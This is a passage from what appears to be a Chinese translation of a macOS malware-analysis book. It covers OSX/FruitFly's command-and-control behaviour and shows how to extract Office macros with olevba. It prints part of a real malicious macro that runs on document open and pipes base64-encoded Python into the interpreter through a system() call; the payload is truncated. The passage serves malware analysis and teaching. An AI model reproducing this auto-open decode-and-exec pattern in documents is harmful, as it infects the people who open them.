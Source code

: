 几行后，脚本调用了`IO::Socket::INET`来创建与攻击者远程命令与控制服务器的连接 1。接着，我们可以看到它调用了内置的`scutil`、`hostname`和`whoami`命令 2，这些命令可能是恶意软件用来生成被感染的 macOS 系统基本信息的。

在代码的其他部分，恶意软件调用其他系统命令以提供更多功能。例如，它调用`ps`命令生成进程列表 3。通过关注恶意软件 Perl 代码中调用的命令，这种方法可以提供足够的关于其能力的洞察。要对该威胁进行全面分析，请参阅我的研究论文《进攻性恶意软件分析：剖析 OSX/FruitFly》^(16)。

## Microsoft Office 文档

分析 Windows 恶意软件的研究人员很可能会遇到包含恶意宏的 Microsoft Office 文档。不幸的是，最近机会主义的恶意软件作者也加大了感染针对 Mac 用户的 Office 文档的力度。这些文档可能仅包含特定于 Mac 的宏代码，或者同时包含针对 Windows 和 Mac 的宏代码，使其具备跨平台能力。

我们在第一章中简要讨论了恶意 Office 文档。回想一下，宏为文档提供了动态化的方式，通常通过向 Microsoft Office 文档中添加可执行代码来实现。使用`file`命令，你可以轻松识别 Microsoft Office 文档（清单 4-28）：

```
% **file "U.S. Allies and Rivals Digest Trump's Victory.docm"**
U.S. Allies and Rivals Digest Trump's Victory.docm: Microsoft Word 2007+
```

清单 4-28：使用`file`命令识别 Office 文档

*.docm*扩展名是文件包含宏的一个很好的指示。除此之外，判断宏是否具有恶意性则需要更多的努力。各种工具可以帮助进行这种静态分析。oletools 工具集就是其中最好的之一。^(17) 该工具集是免费的开源软件，包含多种 Python 脚本，用于促进对 Microsoft Office 文档和其他 OLE 文件的分析。

该工具集包括`olevba`实用程序，旨在提取 Office 文档中嵌入的宏。通过 pip 安装 oletools 后，执行`olevba`并加上`-c`标志和宏文件的路径。如果文档中包含宏，它们将被提取并打印到标准输出（清单 4-29）：

```
% **sudo pip3 install -U oletools**
% **olevba -c**`<path/to/document>`

VBA MACRO ThisDocument.cls 
in file: word/vbaProject.bin
...
```

列表 4-29：使用`olevba`提取宏

例如，我们来仔细看看一个恶意的 Office 文档，名为*U.S. Allies and Rivals Digest Trump’s Victory.docm*，它在 2016 年美国总统选举后不久被发送给毫无防备的 Mac 用户。首先，我们使用`olevba`来确认文档中是否存在宏，并提取出嵌入的宏（列表 4-30）：

```
% **olevba -c "U.S. Allies and Rivals Digest Trump's Victory.docm"**

VBA MACRO ThisDocument.cls 
in file: word/vbaProject.bin

- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -

1 Sub autoopen()
    Fisher
End Sub

Public Sub Fisher()

    Dim result As Long
    Dim cmd As String
  2 cmd = "ZFhGcHJ2c2dNQlNJeVBmPSdhdGZNelpPcVZMYmNqJwppbXBvcnQgc3"
    cmd = cmd + "NsOwppZiBoYXNhdHRyKHNzbCwgJ19jcmVhdGVfdW52ZXJpZm"
    ...
    result = system("echo ""import sys,base64;exec(base64.b64decode(                    
                   3 \"" " & cmd & " \""));"" | python &")
End Sub
```
